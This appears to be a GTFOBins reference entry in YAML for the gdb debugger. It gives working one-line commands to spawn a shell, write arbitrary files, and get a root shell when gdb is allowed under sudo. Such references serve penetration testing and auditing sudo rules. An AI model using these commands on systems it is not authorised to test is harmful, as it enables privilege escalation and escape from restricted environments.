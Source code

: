 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be
  executed with the `python` command in the context of the GDB process.

  See the entries of Python [version 2](/gtfobins/python2/) and
  [version 3](/gtfobins/python3/).
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"data\"" -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
---
```

